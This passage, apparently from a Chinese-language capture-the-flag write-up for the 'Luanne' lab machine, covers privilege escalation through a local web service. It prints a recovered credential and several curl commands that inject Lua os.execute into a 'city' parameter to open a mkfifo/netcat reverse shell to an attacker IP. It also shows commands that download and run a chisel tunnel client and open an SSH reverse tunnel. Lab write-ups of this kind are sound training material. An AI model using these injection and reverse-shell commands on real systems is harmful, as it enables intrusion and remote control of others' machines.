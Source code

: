 ![]({{ site.url }}/assets/Luanne_218.assets/20201206161535219_11332.png)

3000,3001

![]({{ site.url }}/assets/Luanne_218.assets/20201206162019018_11577.png)

![]({{ site.url }}/assets/Luanne_218.assets/20201206162105489_13710.png)

都是需要验证

查看web目录，

![]({{ site.url }}/assets/Luanne_218.assets/20201206162858283_5154.png)

![]({{ site.url }}/assets/Luanne_218.assets/20201206163045359_1566.png)

`webapi_user:iamthebest`

使用验证再次浏览3000端口和3001

`curl --user webapi_user:iamthebest http://127.0.0.1:3000/`

![]({{ site.url }}/assets/Luanne_218.assets/20201206163321436_27056.png)

3001也是一样的。

在继续枚举一段时间后想起

![]({{ site.url }}/assets/Luanne_218.assets/20201206165020666_10842.png)

3001和3000端口的服务并不是一个位置的脚本，内容也可能存在不同。

3001是使用用户r.michaels的。也就是我们切换用户的目标

再次尝试在3001利用之前在外部利用的漏洞，闭合并注入命令 ，应是以r.michaels用户执行的。

测试

----

`curl --user webapi_user:iamthebest "http://127.0.0.1:3001/weather/forecast?city=London');os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.228 1338 >/tmp/f')--"`

`curl --user webapi_user:iamthebest http://127.0.0.1:3001/weather/forecast?city=list`

`curl --user webapi_user:iamthebest -G --data-urlencode "city=London');os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.228 1338 >/tmp/f')--" http://127.0.0.1:3001/weather/forecast`

`curl --user webapi_user:iamthebest  --data-urlencode 'city=London");os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.228 1338 >/tmp/f")--' http://127.0.0.1:3001/weather/forecast`

`curl --output chisel http://10.10.14.228:8080/chisel && chmod +x chisel && ./chisel client 10.10.14.228:4444 R:3001:127.0.0.1:3001`

`ssh -N -R 10.10.14.228:2221:127.0.0.1:3001 evilx@10.10.14.228`
